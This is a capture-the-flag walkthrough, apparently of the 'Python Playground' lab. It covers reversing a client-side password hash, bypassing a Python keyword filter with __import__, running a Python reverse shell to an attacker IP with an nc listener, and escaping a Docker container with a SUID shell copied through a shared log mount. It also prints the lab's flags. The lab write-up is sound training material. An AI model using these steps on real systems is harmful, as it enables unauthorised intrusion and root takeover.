

# Python Playground

## Description

Be creative!

Jump in and grab those flags! They can all be found in the usual places (`/home/someuser` and `/root`).

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:

* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

Let's start with the web service on port 80. The main page has nothing much to offer, except for two links to a login page and a signup page:

By navigating to those two pages (`/login.html` and `/signup.html`), we will see the following message, which says that only admins can login due to some security issues:

I deicded to run `gobuster` on the main page to see if I can find the admin login page:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:80/ -x txt,html,php,js,py

[REDACTED]

===============================================================
/admin.html           (Status: 200) [Size: 3134]
/index.html           (Status: 200) [Size: 941] 
/login.html           (Status: 200) [Size: 549] 
/signup.html          (Status: 200) [Size: 549]
~~~

Great! We found the login page for admins in `/admin.html`:

### Finding the Secret Directory

I tried some default creds, but nothing worked. I checked the source code to see if I can find anything useful and found a javascript code with a comment:

~~~
└─$ curl -s "http://$IP:80/admin.html" | grep //  
      // I suck at server side code, luckily I know how to make things secure without it - Connor
~~~

I'm gonna put the whole script [here](files/login.js), but let me explain what it does. The login page is client-side only, which means the validation happens in the client-side.

The code has a form handler and two functions (`string_to_int_array(str)` and `int_array_to_text(int_array)`). The two functions are used to encode the password input in the form handler and the output is saved in a variable named `hash`.

Then the `hash` variable is compared with a string to be validated. You might think that we need to reverse engineer this code, but wait, not now. Since the code is client-side only, the destination after validation is here too. Here is the form handler:

~~~js
document.forms[0].onsubmit = function(e) {
    e.preventDefault();

    if (document.getElementById('username').value !== 'connor') {
        document.getElementById('fail').style.display = '';
        return false;
    }

    const chosenPass = document.getElementById('inputPassword').value;

    const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))));

    if (hash === 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu') {
        window.location = 'super-secret-admin-testing-panel.html';   // <---------
    } else {
        document.getElementById('fail').style.display = '';
    }
    return false;
}
~~~

We have the secret page for admins now: `super-secret-admin-testing-panel.html`.

## Reverse Shell

By navigating to this directory, we can see a textarea that executes python code and shows the result below it, as the main page said:

We can execute common python code, but when we try importing any module, we get an error:

As you noticed, there is a filter that checks for some keywords and after playing with it for a little bit, I realized that the keywords are: “import “, “eval”, “exec” and “system”.

I tried a few things and I was able to import modules using `__import__()`, which is a python inbuilt function that helps to import modules in runtime.

Now that we can import modules, we can execute a python reverse shell to gain a shell. Here is the python reverse shell to execute. First open a listener (`rlwrap nc -lvnp 4444`) and then add your IP to the code and execute it:

~~~py
socket = __import__('socket')
os = __import__('os')
pty = __import__('pty')

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<YOUR IP>",4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")
~~~

Now we have a root shell...!?

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.65.81] 60516
root@playgroundweb:~/app# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Flag 1

Now we can head to `/root` and read the first flag:

~~~
root@playgroundweb:~/app# cd /root
root@playgroundweb:~# cat flag1.txt
THM{7e0b5cf043975e3c104a458a8d4f6f2f}
~~~

Flag 1: `THM{7e0b5cf043975e3c104a458a8d4f6f2f}`

## Finding SSH Credentials

By listing the files in `/`, we realize that we are in a docker container:

~~~
root@playgroundweb:/# ls -la
total 60
drwxr-xr-x   1 root root 4096 May 16  2020 .
drwxr-xr-x   1 root root 4096 May 16  2020 ..
-rwxr-xr-x   1 root root    0 May 16  2020 .dockerenv    <----------
lrwxrwxrwx   1 root root    7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot

[REDACTED]
~~~

The hint for the second flag tells us that we need credentials. Let's go back to the hash we had. We need to reverse engineer the encoding process.

### Reverse Engineering

Let's take another look at the functions one by one to see what they do:

~~~js
function string_to_int_array(str) {
    const intArr = [];

    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);

        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;

        intArr.push(partA);
        intArr.push(partB);
    }

    return intArr;
}
~~~

In this first funcion (`string_to_int_array(str)`), the input string turns into two numeric values: the ascii code devided by 26 and the reminder of the ascii code devided by 26. So let's create a python function to reverse this process:

~~~py
def rev_str_to_int(numArr):
    res = ""
    for n1, n2 in zip(numArr[0::2], numArr[1::2]):
        res += (chr((n1 * 26) + n2))
    return res
~~~

In the function above, we multiply the first number by 26 and then add the second number to it. We use `zip` to get the numbers in pairs and turn the ascii code back into a character. Let's head to other function in the code:

~~~js
function int_array_to_text(int_array) {
    let txt = '';

    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }

    return txt;
}
~~~

This function (`int_array_to_text(int_array)`) adds 97 to the numbers, resulted by the other function and turns them into characters. This should be easy to reverse. Let's create a function for it:

~~~py
def rev_int_to_str(txt):
    res = []
    for elm in txt:
        res.append(ord(elm) - 97)
    return res
~~~

In this function, we simply turn the charavters into ascii values and subtract 97 from them. Now we add these two functions into one script and add the hash to them and print the result. Here's the [script](files/decoder.py):

~~~py
#!/usr/bin/env python3

hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'

def rev_str_to_int(numArr):
    res = ""
    for n1, n2 in zip(numArr[0::2], numArr[1::2]):
        res += (chr((n1 * 26) + n2))
    return res

def rev_int_to_str(txt):
    res = []
    for elm in txt:
        res.append(ord(elm) - 97)
    return res

print(rev_str_to_int(rev_int_to_str(rev_str_to_int(rev_int_to_str(hash)))))
~~~

Now by running this script, we'll get the password for user `connor`:

~~~
└─$ python3 decoder.py
spaghetti1245
~~~

Connor's password: `spaghetti1245`

## Flag 2

Now that we have creds (`connor:spaghetti1245`), we can directly connect to the machine via ssh. Let's read the second flag in `connor`'s home directory:

~~~
connor@pythonplayground:~$ ls
flag2.txt
connor@pythonplayground:~$ cat flag2.txt 
THM{69a36d6f9da10d23ca0dbfdf6e691ec5}
~~~

Flag 2: `THM{69a36d6f9da10d23ca0dbfdf6e691ec5}`

## Privilege Escalation

Now we need to gain root access. I looked around a lot, but found nothing. I decided to go back to the docker container (the shell that we gained from the reverse shell). I used `df` command to find the mount point:

~~~
root@playgroundweb:~# df
Filesystem     1K-blocks    Used Available Use% Mounted on
overlay         10252564 5063384   4648664  53% /
tmpfs              65536       0     65536   0% /dev
tmpfs             243312       0    243312   0% /sys/fs/cgroup
shm                65536       0     65536   0% /dev/shm
/dev/xvda2      10252564 5063384   4648664  53% /mnt/log    <---------
tmpfs             243312       0    243312   0% /proc/acpi
tmpfs             243312       0    243312   0% /proc/scsi
tmpfs             243312       0    243312   0% /sys/firmware
~~~

`/mnt/log` is the mount point. When we take a look at it, we can see that it contains logs from the machine:

~~~
root@playgroundweb:~# ls -la /mnt/log
total 4312
drwxrwxr-x  9 root        106    4096 Dec 29 16:47 .
drwxr-xr-x  1 root root          4096 May 16  2020 ..
-rw-r--r--  1 root root         27163 May 11  2020 alternatives.log
drwxr-xr-x  2 root root          4096 May 16  2020 apt
-rw-r-----  1  102 adm         187825 Dec 29 16:33 auth.log
-rw-r--r--  1 root root         56751 Feb  3  2020 bootstrap.log

[REDACTED]
~~~

We can find the same files in `/var/log` on the host machine which we have connected to via ssh:

~~~
connor@pythonplayground:~$ ls -la /var/log
total 4312
drwxrwxr-x   9 root      syslog             4096 Dec 29 16:47 .
drwxr-xr-x  13 root      root               4096 Feb  3  2020 ..
-rw-r--r--   1 root      root              27163 May 11  2020 alternatives.log
drwxr-xr-x   2 root      root               4096 May 16  2020 apt
-rw-r-----   1 syslog    adm              187825 Dec 29 16:33 auth.log
-rw-r--r--   1 root      root              56751 Feb  3  2020 bootstrap.log

[REDACTED]
~~~

I tested this theory by creating a file in the mount point in the decker and it appeared in `/var/log`. We have root access in the docker container, which means if we create a file, it will be owned by root.

Let's go root then! First go to the docker and copy `/bin/sh` to `/mnt/log`. Then set the SUID bit:

~~~
root@playgroundweb:~# cp /bin/sh /mnt/log
root@playgroundweb:~# chmod +s /mnt/log/sh
~~~

Now we go to our host machine and our `sh` we copied is here. Just run `./sh -p` and we will switch to a root shell:

~~~
connor@pythonplayground:/var/log$ ls -la
total 4440
drwxrwxr-x   9 root      syslog             4096 Dec 29 17:01 .
drwxr-xr-x  13 root      root               4096 Feb  3  2020 ..

[REDACTED]

drwxr-xr-x   2 root      root               4096 Nov 23  2018 lxd
-rwsr-sr-x   1 root      root             129816 Dec 29 17:01 sh   <---------
-rw-r-----   1 syslog    adm             1471158 Dec 29 16:50 syslog
-rw-------   1 root      root              64064 May 11  2020 tallylog
drwxr-x---   2 root      adm                4096 May 11  2020 unattended-upgrades
-rw-rw-r--   1 root      utmp              47616 Dec 29 16:20 wtmp
connor@pythonplayground:/var/log$ ./sh -p
# id
uid=1000(connor) gid=1000(connor) euid=0(root) egid=0(root) groups=0(root),1000(connor)
~~~

## Flag 3

Now we can head to `/root` on the host machine and read the final flag:

~~~
# cd /root
# cat flag3.txt	
THM{be3adc69c25ad14eb79da4eb57925ad1}
~~~

Flag 3: `THM{be3adc69c25ad14eb79da4eb57925ad1}`

# D0N3! ; )

Thanks to the creator(s) of this challenging room!

Hope you had fun like I did and learned something.

Have a g00d 0ne! : )